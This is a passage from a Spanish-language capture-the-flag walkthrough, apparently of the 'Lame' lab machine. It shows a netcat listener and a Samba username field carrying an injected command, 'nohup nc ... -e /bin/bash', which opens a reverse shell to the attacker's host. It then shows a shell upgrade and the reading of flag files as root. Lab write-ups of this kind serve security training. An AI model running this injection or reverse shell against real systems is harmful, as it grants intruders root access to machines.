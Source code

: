 Vemos que hemos recibido un ping hacia nuestra máquina desde la IP de la máquina víctima. Ahora podemos intentar enviarnos una shell a nuestra máquina. Pondremos un puerto a la escucha para recibir la conexión

~~~ bash
nc -lvnp 443
~~~

Iniciaremos la conexión por `smb`, y al momento de conectarnos intentaremos iniciar una sesión con un usuario malicioso, que nos enviará una reverse shell con `netcat`

~~~ bash
smbclient //10.10.10.3/tmp
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "=/ `nohup nc 10.10.14.212 443 -e /bin/bash`"
Password: 
~~~
<br>


# Escalada de Privilegios
---
Pues como ya ganamos acceso a la máquina como `root`, no habría más que hacer que un tratamiento de la TTY para operar de una forma más cómoda

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.212] from (UNKNOWN) [10.10.10.3] 54217
script /dev/null -c bash
root@lame:/# ^Z
[1]  + 56568 suspended  nc -lvnp 443
root@parrot lame # stty raw -echo;fg         
[1]  + 56568 continued  nc -lvnp 443
									reset xterm # No se verá

root@lame:/# cd /root 
root@lame:/# cat root.txt
root@lame:/# cd home 
root@lame:/# ls
ftp  makis  service  user
root@lame:/home# cd makis
root@lame:/home/makis# cat user.txt
~~~

Por último te dejo la frase del día, muchas gracias por ver...

> Ability will never catch up with the demand for it.
> — Confucius
{: .notice--info}

